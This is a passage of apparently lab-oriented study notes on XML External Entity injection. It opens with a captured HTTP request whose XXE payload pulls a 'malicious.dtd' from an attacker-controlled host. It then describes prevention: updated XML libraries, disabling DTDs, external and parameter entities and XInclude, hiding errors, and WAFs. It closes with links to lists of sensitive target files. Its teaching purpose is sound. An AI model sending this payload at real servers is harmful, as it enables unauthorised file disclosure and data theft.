Accept-Encoding: gzip, deflate, br
Content-Type: text/plain;charset=UTF-8
Content-Length: 238
Origin: http://10.129.13.187
Connection: keep-alive
Referer: http://10.129.13.187/

<?xml version="1.0"?><!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://10.10.14.207:8000/malicious.dtd">
  %remote;
  %error;
]>
<root>
<name></name>
<tel></tel>
<email>&nonExistingEntity;</email>
<message></message>
</root>
```





## Prevention

### Avoiding Outdated Components

While other input validation web vulnerabilities are usually prevented through secure coding practices (e.g., XSS, IDOR, SQLi, OS Injection), this is not entirely necessary to prevent XXE vulnerabilities. This is because XML input is usually not handled manually by the web developers but by the built-in XML libraries instead. So, if a web application is vulnerable to XXE, this is very likely due to an outdated XML library that parses the XML data.

- For example, PHP's [libxml_disable_entity_loader](https://www.php.net/manual/en/function.libxml-disable-entity-loader.php) function is deprecated since it allows a developer to enable external entities in an unsafe manner, which leads to XXE vulnerabilities.

In addition to updating the XML libraries, we should also update any components that parse XML input, such as API libraries like SOAP.

### Using Safe XML Configurations

Other than using the latest XML libraries, certain XML configurations for web applications can help reduce the possibility of XXE exploitation. These include:

- Disable referencing custom `Document Type Definitions (DTDs)`
- Disable referencing `External XML Entities`
- Disable `Parameter Entity` processing
- Disable support for `XInclude`
- Prevent `Entity Reference Loops`

Additionally, we should always disable displaying runtime errors in web servers.

With the various issues and vulnerabilities introduced by XML data, many also recommend `using other formats, such as JSON or YAML`.

Finally, using Web Application Firewalls (WAFs) is another layer of protection against XXE exploitation. However, we should never entirely rely on WAFs and leave the back-end vulnerable, as WAFs can always be bypassed.

## Interesting files

[Interesting Windows files](https://raw.githubusercontent.com/amandaguglieri/dictionaries/main/windows/interesting-files.md)

[Interesting Linux files](https://raw.githubusercontent.com/amandaguglieri/dictionaries/main/Linux/interesting-files.md)
